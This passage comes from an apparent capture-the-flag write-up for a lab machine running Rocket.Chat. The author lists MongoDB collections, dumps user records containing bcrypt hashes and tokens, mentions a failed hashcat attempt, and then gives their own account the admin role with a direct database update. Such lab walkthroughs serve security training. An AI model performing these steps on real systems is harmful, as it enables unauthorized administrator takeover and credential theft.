 ```sql
        "rocketchat_room",
        "rocketchat_sessions",
        "rocketchat_settings",
        "rocketchat_smarsh_history",
        "rocketchat_statistics",
        "rocketchat_subscription",
        "rocketchat_uploads",
        "rocketchat_user_data_files",
        "rocketchat_webdav_accounts",
        "system.views",
        "ufsTokens",
        "users",
        "usersSessions",
        "view_livechat_queue_status"
]
```

The `users` collection is always an interesting place to start:

```sql
rs0:PRIMARY> db.users.find()
{ "_id" : "rocket.cat", "createdAt" : ISODate("2021-08-10T19:44:00.224Z"), "avatarOrigin" : "local", "name" : "Rocket.Cat", "username" : "rocket.cat", "status" : "online", "statusDefault" : "online", "utcOffset" : 0, "active" : true, "type" : "bot", "_updatedAt" : ISODate("2021-08-10T19:44:00.615Z"), "roles" : [ "bot" ] }
{ "_id" : "ZLMid6a4h5YEosPQi", "createdAt" : ISODate("2021-08-10T19:49:48.673Z"), "services" : { "password" : { "bcrypt" : "$2b$10$jzSWpBq.eJ/yn/Pdq6ilB.UO/kXHB1O2A.b2yooGebUbh69NIUu5y" }, "email" : { "verificationTokens" : [ { "token" : "dgATW2cAcF3adLfJA86ppQXrn1vt6omBarI8VrGMI6w", "address" : "saul@talkative.htb", "when" : ISODate("2021-08-10T19:49:48.738Z") } ] }, "resume" : { "loginTokens" : [ ] } }, "emails" : [ { "address" : "saul@talkative.htb", "verified" : false } ], "type" : "user", "status" : "offline", "active" : true, "_updatedAt" : ISODate("2025-03-14T05:09:22.886Z"), "roles" : [ "admin" ], "name" : "Saul Goodman", "lastLogin" : ISODate("2022-03-15T17:06:56.543Z"), "statusConnection" : "offline", "username" : "admin", "utcOffset" : 0 }
{ "_id" : "uLqMNFketsTpxdy2c", "createdAt" : ISODate("2025-03-14T15:31:23.638Z"), "services" : { "password" : { "bcrypt" : "$2b$10$q1CK/skDgfzFblmoFmWvW.a4pbd4jtNZiXOIDnBuAZWJnSo7hk0GC", "reset" : { "token" : "RceTK8zOqp6NgYAEaN-YK1VeWoO4O5ut-D29GH1tAmN", "email" : "0x7377@talkative.htb", "when" : ISODate("2025-03-14T15:31:30.388Z"), "reason" : "enroll" } }, "email" : { "verificationTokens" : [ { "token" : "NmD0YILh44mJItjb6aZ6zojXBoW4nEKejAphvbCLwUs", "address" : "0x7377@talkative.htb", "when" : ISODate("2025-03-14T15:31:23.732Z") } ] }, "resume" : { "loginTokens" : [ { "when" : ISODate("2025-03-14T15:31:24.057Z"), "hashedToken" : "UHosmasQ5Jos4hz8UfeTjFI/92swwFQ44m7tiDvhDc8=" } ] } }, "emails" : [ { "address" : "0x7377@talkative.htb", "verified" : false } ], "type" : "user", "status" : "online", "active" : true, "_updatedAt" : ISODate("2025-03-14T15:31:30.405Z"), "roles" : [ "user" ], "name" : "0x7377", "lastLogin" : ISODate("2025-03-14T15:31:24.054Z"), "statusConnection" : "online", "utcOffset" : -6, "username" : "0x7377" }
```

Here I can see two existing users; `rocket.cat`, `admin`, and mine; `0x7377`

I first tried to crack `admin`'s bcrypt hash using `hashcat`, but it didn't work.

Instead, I decided to change mine's role as `admin`.

```sql
rs0:PRIMARY> db.users.update({"_id": "uLqMNFketsTpxdy2c"}, { $set: { "roles" : ["admin"]}})
WriteResult({ "nMatched" : 1, "nUpserted" : 0, "nModified" : 1 })
```
